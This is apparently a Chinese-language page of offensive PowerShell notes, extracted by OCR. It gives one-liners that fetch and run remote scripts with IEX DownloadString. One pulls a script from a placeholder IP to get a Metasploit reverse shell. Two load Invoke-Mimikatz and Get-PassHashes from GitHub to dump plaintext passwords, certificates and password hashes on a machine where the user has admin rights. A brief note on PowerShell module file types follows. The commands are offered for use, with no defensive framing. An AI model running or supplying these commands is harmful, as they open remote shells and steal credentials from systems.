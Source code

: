 


**cmd窗口下利用Powershell反弹MSF shell** 



```
在cmd窗口执行      
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/7788.ps1');xx.ps1      
在powershell窗口执行      
IEX (New-Object Net.WebClient).DownloadString('http://xx.xx.xx.xx/7788.ps1');xx.ps1
```




**远程加载PowerShell脚本读取明文密码**



需要管理员权限



```
在cmd窗口执行      
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts      
在powershell窗口执行      
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz –DumpCerts
```




 **远程加载PowerShell脚本读取密码hash值**



需要管理员权限



```
在cmd窗口执行      
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes      
在powershell窗口执行      
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
```




### Powershell导入文件 



在大型的Powershell项目下，通常会有 .ps1 、.psd1 和 .psm1 几种后缀的文件。如PowerSploit工具



![](https://img-blog.csdnimg.cn/20191217161342877.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
